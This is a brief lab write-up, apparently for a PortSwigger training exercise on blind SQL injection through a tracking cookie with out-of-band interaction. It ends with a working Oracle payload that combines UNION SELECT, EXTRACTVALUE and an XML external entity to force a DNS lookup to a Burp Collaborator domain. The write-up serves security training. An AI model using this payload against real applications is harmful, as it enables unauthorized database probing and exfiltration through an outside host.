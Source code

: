 
### Lab description


This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

### hint

> You cant use other services **only** the burp collaborator public service.


### Lab solution

![](static//img/Paste_image_20230605114828.png)

- Payload: `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://aaaaa.oastify.com/"> %remote;]>'),'/l') FROM dual--`
